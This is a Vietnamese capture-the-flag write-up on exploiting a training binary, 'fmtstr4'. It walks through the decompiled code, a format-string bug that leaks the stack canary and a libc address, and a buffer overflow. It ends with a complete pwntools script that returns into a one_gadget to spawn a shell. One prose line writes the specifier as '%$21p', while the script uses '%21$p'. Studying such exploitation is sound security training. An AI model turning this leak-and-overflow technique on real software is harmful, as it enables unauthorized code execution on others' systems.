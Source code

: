 **1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr4_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=6280b1d10e0670c9b75c5509ae5676255964540b, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-80h] BYREF
  char buf[32]; // [rsp+20h] [rbp-60h] BYREF
  char v6[56]; // [rsp+40h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  memset(v6, 0, 0x32uLL);
  printf("ID: ");
  read(0, s, 0x1FuLL);
  if ( strncmp(s, "01234456789", 0xBuLL) )
  {
    puts("Wrong ID!");
    exit(-1);
  }
  printf("Password: ");
  read(0, buf, 0x1FuLL);
  if ( strncmp(buf, "&WPAbC&M!%8S5X#W", 0x10uLL) )
  {
    puts("Wrong password!");
    exit(-1);
  }
  printf("Welcome back, agent ");
  printf(s);
  printf("Enter your secret: ");
  read(0, v6, 0x50uLL);
  return 0;
}
```

Chương trình bắt nhập ID đúng vào biến s phải đúng với giá trị '01234456789' thì mới cho phép tiếp tục nhưng ở đây chỉ lấy 0xb hay 11 byte đầu tiên của chuỗi

Sau đó nhập password vào biến buf và so sánh với chuỗi '&WPAbC&M!%8S5X#W' thì mới tiếp tục và ở đây cũng chỉ lấy 0x10 hay 16 byte đâu fcuar chuỗi để so sánh.

Ta thấy lỗi ở lệnh ```printf(s);``` có lỗi format string

Và nhập vào biến v6 0x50 hay 80 byte nhưng ở đây v6 được khai báo 56 byte -> có lỗi bof.

**2. Ý tưởng**

Dùng lệnh ```checksec``` kiểm tra:

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/Train/fmt4/fmtstr4_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

Ta thấy stack đang ở Canary found nên có thể lợi dụng lỗi format string để leak địa chỉ canary và địa chỉ libc ra.

Với lỗi bof thì số byte in vượt quá không nhiều nên sẽ sử dụng ```one_gadget```

**3. Khai thác**

Nhập đúng ID với password rồi đặt breakpoint sau lệnh ```printf(s)``` để xem vị trí nào có thể leak được địa chỉ libc và canary.

![libc.png](photo/libc.png)

Ta thấy ở vị trí 18 trên stack hay nhập ```%23$p``` thì leak ra một địa chỉ có thể tính toán được địa chỉ libc. Và ở vị trí 16 trên stack (trước rbp) lưu giá trị của canary nên nhập ```%$21p``` thì sẽ có được luôn địa chỉ của canary.

```
payload = b'01234456789'
payload += b'%21$p%23$p'
r.sendafter(b'ID: ', payload)
payload = b'&WPAbC&M!%8S5X#W'
r.sendafter(b'Password: ', payload)
```

Kiểm tra xem có leak ra hay không.

![check.png](photo/check.png)

Như vậy đã leak ra cả địa chỉ canary và địa chỉ trên libc. Bây giờ chỉ cần lưu về để tính địa chỉ libc_base

```
data = r.recvuntil(b'Enter ', drop = True).split(b'0x')
canary = int(data[1], 16)
libc_leak = int(data[2], 16)
log.info('canary: ' + hex(canary))
log.info('libc leak: ' + hex(libc_leak))
```

Có được địa chỉ leak ra thì bây giờ đi tính toán địa chỉ libc base

![libc_base.png](photo/libc_base.png)

Bây giờ là đi kiếm ```one_gadget``` để thực hiện shell:

![one.png](photo/one.png)

Ta kiếm được 3 địa chỉ one_gadget trên.

Ta có địa chỉ leak ra cách địa chỉ libc_base ```0x24083```

```
   0x00005555555553bc <+332>:   lea    rax,[rbp-0x40]
   0x00005555555553c0 <+336>:   mov    edx,0x50
   0x00005555555553c5 <+341>:   mov    rsi,rax
   0x00005555555553c8 <+344>:   mov    edi,0x0
   0x00005555555553cd <+349>:   call   0x555555555120 <read@plt>
```

Ta thấy biến v6 cách rbp 0x40 byte nên cần nhập 0x40 byte rác rồi đưa địa chỉ canary vào và cuối cùng là địa chỉ one_gadget

Đặt brekpoint ở ret xem đã trả về ```one_gadget``` mình chèn vào chưa.

![check1.png](photo/check1.png)

Có vẻ đã chạy quá hàm main của mình nên thử lùi về lần lượt 1 byte đến 0x38 thì đã trả về đúng

![check2.png](photo/check2.png)

Ta có script như sau:

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fmtstr4_patched", checksec = False)
libc = ELF("./libc-2.31.so", checksec = False)
ld = ELF("./ld-2.31.so", checksec = False)
r = process(exe.path)

context.binary = exe

#Leak địa chỉ
#input()
payload = b'01234456789'
payload += b'%21$p%23$p'
r.sendafter(b'ID: ', payload)
payload = b'&WPAbC&M!%8S5X#W'
r.sendafter(b'Password: ', payload)
data = r.recvuntil(b'Enter ', drop = True).split(b'0x')
canary = int(data[1], 16)
libc_leak = int(data[2], 16)
log.info('canary: ' + hex(canary))
log.info('libc leak: ' + hex(libc_leak))
libc.address = libc_leak - 0x24083
log.info('libc base: ' + hex(libc.address))

###Thực hiện shell
one_gadget1 = libc.address + 0xe3afe
one_gadget2 = libc.address + 0xe3b01
one_gadget3 = libc.address + 0xe3b04
payload = b'a'*0x38 + p64(canary) + p64(0) + p64(one_gadget2)
r.sendafter(b'secret: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
